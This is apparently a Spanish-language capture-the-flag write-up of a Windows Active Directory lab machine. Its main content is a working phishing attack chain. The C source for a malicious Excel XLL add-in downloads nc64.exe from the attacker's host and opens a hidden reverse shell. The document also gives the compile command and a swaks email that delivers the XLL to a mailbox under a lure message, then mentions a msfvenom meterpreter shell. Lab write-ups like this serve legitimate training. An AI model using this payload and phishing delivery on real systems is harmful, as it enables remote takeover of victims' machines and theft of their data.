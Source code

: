 #ActiveDirectory #hard #windows 
### Ping

```python
❯ ping -c 1 10.10.11.21
PING 10.10.11.21 (10.10.11.21) 56(84) bytes of data.
64 bytes from 10.10.11.21: icmp_seq=1 ttl=127 time=151 ms

--- 10.10.11.21 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 151.127/151.127/151.127/0.000 ms
```

### TTL = 127 Windows

### nmap

```python
❯ sudo nmap -p- -open -sCV --min-rate 5000 -n -Pn 10.10.11.21 -oN Scan
[sudo] password for gleoq: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 19:21 EDT
Nmap scan report for 10.10.11.21
Host is up (0.15s latency).
Not shown: 65512 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: MAINFRAME, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Axlle Development
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-27 23:22:29Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-06-27T23:23:59+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=MAINFRAME.axlle.htb
| Not valid before: 2024-05-19T11:25:03
|_Not valid after:  2024-11-18T11:25:03
| rdp-ntlm-info: 
|   Target_Name: AXLLE
|   NetBIOS_Domain_Name: AXLLE
|   NetBIOS_Computer_Name: MAINFRAME
|   DNS_Domain_Name: axlle.htb
|   DNS_Computer_Name: MAINFRAME.axlle.htb
|   DNS_Tree_Name: axlle.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2024-06-27T23:23:21+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49169/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49170/tcp open  msrpc         Microsoft Windows RPC
49175/tcp open  msrpc         Microsoft Windows RPC
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
52440/tcp open  msrpc         Microsoft Windows RPC
61423/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MAINFRAME; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -3s, deviation: 0s, median: -3s
| smb2-time: 
|   date: 2024-06-27T23:23:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.59 seconds
```

### Enumeración del puerto 80 (http)
parece que no podemos ver nada explotable en la web. así que vamos a seguir enumerando
![[Pasted image 20240627192751.png]]

parece que podemos hacer algún tipo de petición al correo `acconunts@axlle.htb` 
![[Pasted image 20240629111401.png]]

### DLL Hijacking
con este script en C vamos a intentar hacer una petición DLL

```python
#include <windows.h>
#include <urlmon.h>
#pragma comment(lib, "urlmon.lib")
__declspec(dllexport) short __stdcall xlAutoOpen()
{
HRESULT hr = URLDownloadToFileW(NULL, L"http://10.10.14.15:80/nc64.exe", L"C:\\Windows\\Tasks\\nc64.exe", 0,
NULL);
if (SUCCEEDED(hr)) {
WinExec("C:\\Windows\\Tasks\\nc64.exe -e cmd 10.10.14.15 443", SW_HIDE);
}
return 0;
}
```

### Compilamos el  dll con mingw-w64

```python
>	sudo apt install mingw-w64


>	x86_64-w64-mingw32-gcc -shared -o exploit.dll exploit.c -Wl,--output-def,exploit.def -lurlmon
```

### cambiamos la extensión del script

```python
>	mv exploit.dll exploit.xll
```

### Enviamos el XLL a accounts@axlle.htb vía SMTP

```python
swaks --to "accounts@axlle.htb" --from "gleoq@axlle.htb" --header "Subject: Open this exploit" --body "This is a picture of my girlfriend" --attach-type application/octet-stream --attach @exploit.xll --server axlle.htb --port 25 --timeout 20s
```

![[Pasted image 20240629113053.png]]

### Enumeración del sistema
abajo a la derecha podemos observar la terminal. de la maquina victima. he conseguido un archivo `xml` con información importante 

```python
type C:\Program Files (x86)\hMailServer\Data\axlle.htb\dallon.matrix\2F\{2F7523BD-628F-4359-913E-
A873FCC59D0F}.eml
```

![[Pasted image 20240629114836.png]]

### Reverse shell
creamos un `exploit con msfvenom` y lo compartimos con la maquina victima con un servidor python
![[Pasted image 20240629115953.png]]

### msfconsole

![[Pasted image 20240629120522.png]]

`ejecutamos el exploit `
#Nota: la shell debe estar subida en el directorio `c:\programdata\` no en `Temp` como se muestra en la imagen
![[Pasted image 20240629120649.png]]

### meterpreter





### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
